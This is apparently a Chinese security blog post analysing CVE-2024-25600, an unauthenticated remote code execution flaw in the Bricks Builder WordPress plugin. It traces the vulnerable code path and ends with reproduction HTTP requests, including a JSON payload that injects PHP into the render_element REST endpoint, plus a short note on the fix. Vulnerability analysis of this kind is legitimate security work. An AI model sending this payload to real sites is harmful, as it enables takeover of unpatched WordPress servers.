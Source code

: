 #  WordPress插件Bricks Builder存在RCE漏洞(CVE-2024-25600)   
 TKing的安全圈   2024-03-12 23:16  
  
本次代码审计项目为PHP语言，我将继续以漏洞挖掘者的视角来分析漏洞的产生，调用与利用.....  
  
前方高能，小伙伴们要真正仔细看咯.....  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/6ibvMRtaFJHTRHickXWAibdmVxQBicK1PI9aicDKf23a4lByHItWrhHhnG2CPcL0qdkFFc0EIrz1MrY2gVtcqvL620Q/640?wx_fmt=png&from=appmsg "")  
##### 漏洞简介  
  
CVE-2024-25600 是一个严重的（CVSS 评分 9.8）远程代码执行 (RCE) 漏洞，影响 WordPress 的 
Bricks Builder 插件。成功利用此漏洞可能允许未经身份验证的攻击者在受影响的基于 WordPress 的网站上远程执行任意 PHP 
代码。据报道，该漏洞已被广泛利用，包括尝试在易受攻击的服务器上安装基于 PHP 的恶意 Webshell。Bricks Builder 插件版本
 1.9.6.1 或更高版本中已发布解决此漏洞的补丁。  
  
Bricks Builder官方 Bricks – Visual Site Builder for WordPress  
  
Bricks Builder官方参考文档Getting Started – Bricks Academy  
  
漏洞官方公告Bricks 1.9.6.1 Changelog – Bricks  
##### 漏洞分析  
  
先看触发漏洞的代码函数  
  
位于\wp-content\themes\bricks\includes\query.php中346行  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/6ibvMRtaFJHTRHickXWAibdmVxQBicK1PI9aJUxFyIV6sJBvDf4hhUoS6S4k9icXq3zwjGhViatuoUCxlGurMAXpyRicg/640?wx_fmt=png&from=appmsg "")  
  
这段代码被涉及用来执行用户提交的 PHP 代码并返回执行结果  
  
既然这样，就很大概率能够触发rce  
  
向上分析参数是如何传递的，先分析参数$php_query_raw  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/6ibvMRtaFJHTRHickXWAibdmVxQBicK1PI9aIVyr3koqqcMib5x8f1zjoSWcbL6noDzZpNic1Q2PVWvOKRXWHkNCQ7sQ/640?wx_fmt=png&from=appmsg "")  
  
$php_query_raw由bricks_render_dynamic_data( $query_vars['queryEditor'], $post_id );得到  
  
可以追入bricks_render_dynamic_data 查看是否对数据进行了过滤处理  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/6ibvMRtaFJHTRHickXWAibdmVxQBicK1PI9apjf0QCkZaRWcL2KKCFN5w5gcr9J7MB3thXMhDQkHpZPIK5PtdKQuSQ/640?wx_fmt=png&from=appmsg "")  
  
追入render_content方法  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/6ibvMRtaFJHTRHickXWAibdmVxQBicK1PI9aZov7hXMUIdph3wx9NKrp8lRbHT3gAQwsUbbdvf0ubmYMuibicmWnz2JQ/640?wx_fmt=png&from=appmsg "")  
  
代码功底好的小伙伴 可以逐行分析下....  
  
回到query.php 337行分析 $query_vars['queryEditor']参数的传递  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/6ibvMRtaFJHTRHickXWAibdmVxQBicK1PI9agVger3rzn8DRicq9QdjtlEOesJe96gBcMJE46G8XfPBiaIFrkNKNM7IQ/640?wx_fmt=png&from=appmsg "")  
  
$query_vars由传入的形参得来。右键find usages 找到调用这个方法（prepare_query_vars_from_settings）被调用的地方  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/6ibvMRtaFJHTRHickXWAibdmVxQBicK1PI9avTcvBicSPyy0v3XMJDx0ibhbfbLZCZNogYqiaiakDibfuCWfWzafgkEOicNw/640?wx_fmt=png&from=appmsg "")  
  
优先考虑__construct方法，该方法会在实例化类时自动执行  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/6ibvMRtaFJHTRHickXWAibdmVxQBicK1PI9avLiaqEpAyS4XKOZaL7BucDnmKEUxAyhZDomxXURFd6Bic5DyjuFicqx5Q/640?wx_fmt=png&from=appmsg "")  
  
在调用方法的代码行111行，向上分析  
  
**要想成功调用prepare_query_vars_from_settings方法成功**需要  
  
1.在element参数下setting参数下的query参数下，要有参数objectType  
  
2.进入else语句块，$element['id']为空即可 （即不考虑这个参数）  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/6ibvMRtaFJHTRHickXWAibdmVxQBicK1PI9aX89ib51dHncy2wJt2ib0ILCJyUKrRLyrSf1Lkfddg11DBWVNdxuE8opg/640?wx_fmt=png&from=appmsg "")  
  
3.在element参数下setting参数下的query参数下，设置参数queryEditor为我们rce代码  
  
4.在element参数下setting参数下的query参数下，要有参数useQueryEditor  
  
那么接下来继续向上分析方法调用（__construct方法的被调用）  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/6ibvMRtaFJHTRHickXWAibdmVxQBicK1PI9aHG3IicCllibylmFeNLWMJkcYoiaziaeibJMSj4McAeeY9bV9UolhgQP4Msw/640?wx_fmt=png&from=appmsg "")  
  
逐个进行分析，要分析函数传递的参数是否为我们可控.....  
  
我查看了render_data与render_elemet这两个方法似乎都不太行，但是在分析render_elemet这个方法得到看意外的收获。  
  
....  
  
来到ajax.php中该类在297行，有实例化l类 Query  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/6ibvMRtaFJHTRHickXWAibdmVxQBicK1PI9aMPDkcw43zVwPl85p6icOYatl0oWan1FqvPq3OMUWibxv4czYU6cd9z3w/640?wx_fmt=png&from=appmsg "")  
  
向上分析参数的调用，重点参数$loop_elemet  
  
在273行与289行之间 似乎时设置了ajax与rest api这两种请求方式。非ajax请求  
  
element参数下没有参数loopElement,$loop_elemet将被置为false  
  
296行的if语句也将为假，这里 new Query是执行不了的。那继续向下看吧，看看有什么线索  
  
$element_class_name将是Element_Container类  
  
在322行我们可以实例化对象， 不过只能对特定的类进行实例化  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/6ibvMRtaFJHTRHickXWAibdmVxQBicK1PI9aJKv01e7wbU7ickBxjia9MX1nDMgdfp3mQHrzuE8NEIRXoic6vUubnLUAA/640?wx_fmt=png&from=appmsg "")  
  
类似于白名单，我们只能对如下的类进行实例化  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/6ibvMRtaFJHTRHickXWAibdmVxQBicK1PI9aLS7z1LUuRwBW5ibNwQj8putTlDeNDwJmS0u0Sue5WGXhCvzaVsMj5wQ/640?wx_fmt=png&from=appmsg "")  
  
假如我们在参数element下设置了name=container，则会实例化Container类，（之前在查找__construct方法时有Container类这个结果，所有要对这个类非常的敏感）  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/6ibvMRtaFJHTRHickXWAibdmVxQBicK1PI9aqH85BrDmk3WBdumvsHDTz52sMv9dMGto0DoibeRTDQsLpoviciaGoIDKg/640?wx_fmt=png&from=appmsg "")  
  
先不急找调用者，分析element成员是否我们可控的  
  
在ajax.php中render_element函数中，$element变量是我们可控的，在322行代码将这个变量赋予了实例化container类  
  
分析下的它的构造函数  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/6ibvMRtaFJHTRHickXWAibdmVxQBicK1PI9aHDqjt8b0tI2ib07YlXeWfSpP3dTnXQF29JXgrZPQnkE3miaJhpeoXHcg/640?wx_fmt=png&from=appmsg "")  
  
，跟入类Container的__construct 魔术方法（在继承的父类）  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/6ibvMRtaFJHTRHickXWAibdmVxQBicK1PI9ahoLVCYfDXibv2uCEv1I77B8z2pic1urPpD8A2FSkE9uokgzzdSqFEJzA/640?wx_fmt=png&from=appmsg "")  
  
分析它对传入的$element做了什么处理。上图赋予了此类的的element变量，这也是我们想要看到的。  
  
接下来就可以分析container类render方法的调用了  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/6ibvMRtaFJHTRHickXWAibdmVxQBicK1PI9aV7crwFiaZ7U4BrXkogE9G5zNqXTmWq1OT2OEnydkicV7GEJh7eeS30wg/640?wx_fmt=png&from=appmsg "")  
  
我们发现base类init方法调用了render方法（继承关系container可以调用此方法）  
  
继续分析render_element函数对container对象又执行了那些操作，  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/6ibvMRtaFJHTRHickXWAibdmVxQBicK1PI9aDcqB9G2ctU0gFqa6CibOpTtxcuC88b2PEv0HKZNJBjibnARZsPHQktKQ/640?wx_fmt=png&from=appmsg "")  
  
container对象调用了init方法 这就使得我的RCE代码执行成功！  
  
##### 漏洞复现  
  
先获取下nonce值  
```
GET /WordPress-6.4.3/ HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Windows NT 5.1) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/36.0.1985.67 Safari/537.36
Connection: close
Accept-Encoding: gzip, deflate, br
```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/6ibvMRtaFJHTRHickXWAibdmVxQBicK1PI9a85LNrkBS0XuicnprsZ6sOS8xiaORBJKCBJlAn8PmMbpJDbKZUCUfTaww/640?wx_fmt=png&from=appmsg "")  
  
发送payload  
```
POST /WordPress-6.4.3/wp-json/bricks/v1/render_element HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/41.0.2227.0 Safari/537.36
Connection: close
Content-Length: 270
Content-Type: application/json
Accept-Encoding: gzip, deflate, br

{
  "postId": "1",
  "nonce": "b5b275220f",
  "element": {
    "name": "container",
    "settings": {
      "hasLoop": "",
      "query": {
        "useQueryEditor": "",
        "queryEditor": "system('calc');",
        "objectType": ""
      }
    }
  }
}
```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/6ibvMRtaFJHTRHickXWAibdmVxQBicK1PI9aIc3d48nTbPVcCPoaaexnbGBmdyUxKhKlkkUTCUssXOHXzvFt8PyIDA/640?wx_fmt=png&from=appmsg "")  
##### 后续修复  
  
增加用户权限认证  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/6ibvMRtaFJHTRHickXWAibdmVxQBicK1PI9a0icowESBicMrxPhfWaue7jdmueIgerCKGxMX6FbSJZfLApUmnkI83SDQ/640?wx_fmt=png&from=appmsg "")  
  
  
